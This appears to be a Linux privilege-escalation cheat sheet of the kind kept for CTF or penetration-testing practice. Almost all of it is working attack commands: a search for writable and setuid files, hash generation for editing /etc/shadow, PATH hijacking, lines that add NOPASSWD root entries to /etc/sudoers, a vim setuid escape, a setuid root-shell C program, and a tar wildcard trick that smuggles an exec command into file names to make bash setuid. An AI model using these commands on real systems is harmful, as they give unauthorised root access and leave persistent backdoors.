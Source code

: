 Find files with write permissions for everyone
```
find / -not -type l -perm -o+w
```


generating a password salt

```
openssl passwd -1 -salt <salt> <password>
vim /etc/shadow

```

Using gtfobins on NOPASSWD sudo commands
```
sudo -l
```

Path variable hijacking
```
find / -perm -u=s -type f 2>/dev/null
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
export PATH=$(pwd):$PATH
```

Add self to sudoers
```
echo \"brucetherealadmin ALL=(root) NOPASSWD: ALL" >> /etc/sudoers

printf '#!/bin/bash\necho \"www-data ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > shell.sh
```

Search for setuid capabilites
```
getcap -r / 2>/dev/null
```

vim with setuid capability
```
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

Search for writable folders
```
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```

Compilable C through `gcc <file> -o <out filename>  -w`
```
#include <stdio.h>
#include <stdlib.h>
int main()
{
	setgid(0);
	setuid(0);
	system("/bin/bash");
	return 0;
}
```

backup.sh
```
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" >> --checkpoint=1
```

